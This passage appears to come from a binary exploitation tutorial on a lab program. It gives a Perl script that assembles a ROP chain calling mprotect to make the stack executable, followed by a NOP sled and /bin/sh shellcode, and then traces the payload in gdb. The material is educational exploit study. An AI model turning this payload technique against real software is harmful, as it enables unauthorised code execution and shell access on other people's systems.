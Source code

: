 ```perl
$pop_rsi = pack("Q", 0x000000000040f44e);
$pop_rdx = pack("Q", 0x00000000004017cf);
$stack_address = pack("Q", 0x00007ffffffde000);
$stack_size = pack("Q", 0x21000);
$rwx = pack("Q", 0x7);
$mprotect = pack("Q", 0x451bf0);
$nops = "\x90" x 100;
$shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05";
# https://shell-storm.org/shellcode/files/shellcode-603.php
$offset  = "A" x 150;

print $nops . $shellcode . $offset . $pop_rdi . $stack_address . $pop_rsi . $stack_size . $pop_rdx . $rwx . $mprotect;
```
### Stack is rwx ?

Before choosing a return address for our shellcode I wanted to show you how our payload behaves with the binary during calling mprotect. I will open gdb, and put a breakpoint at main. The I am gonna run the program with the payload (`./vuln.pl > payload` to create the payload) and put a second break point at the ret address. After I will put `c` for continuing and `si` for a single instruction at machine level.

![image](https://user-images.githubusercontent.com/87600765/175805188-b4fda3ad-27e9-4061-9ad5-f92df1c8fd26.png)

![image](https://user-images.githubusercontent.com/87600765/175778650-bce0a1a5-a8fa-40ca-b189-58e91875e35c.png)

![image](https://user-images.githubusercontent.com/87600765/175778681-ad3ea499-fe46-4246-a078-6cf084e70197.png)

![image](https://user-images.githubusercontent.com/87600765/175778696-208e40cf-f211-49a7-b548-a1e930f60796.png)

As you can see there is our payload then I just put `si` and press enter. So you will see the values from the stack beinng pop in our registers.

![image](https://user-images.githubusercontent.com/87600765/175778778-32d79993-6d50-4633-b375-8c2d99951668.png)

![image](https://user-images.githubusercontent.com/87600765/175778809-bb0e528a-bad2-4c5c-b1ed-f21a70620258.png)

So as I said, the ret is about to be executed. So there will have a pop rip and the mprotect function will be call. So I press enter again.

![image](https://user-images.githubusercontent.com/87600765/175778897-f3476bb7-fd21-40d4-882a-0c8dac6141f0.png)

Now the address of mprotect is in rip and the function mprotect was called. but if you do a vmmap the stack isn't executable yet because the function called isn't finish. We need to pass the syscall before the stack is executable.

![image](https://user-images.githubusercontent.com/87600765/175778966-23c63176-fe2e-4eb5-8cd5-d30c650cf275.png)

We are about to execute syscall. 
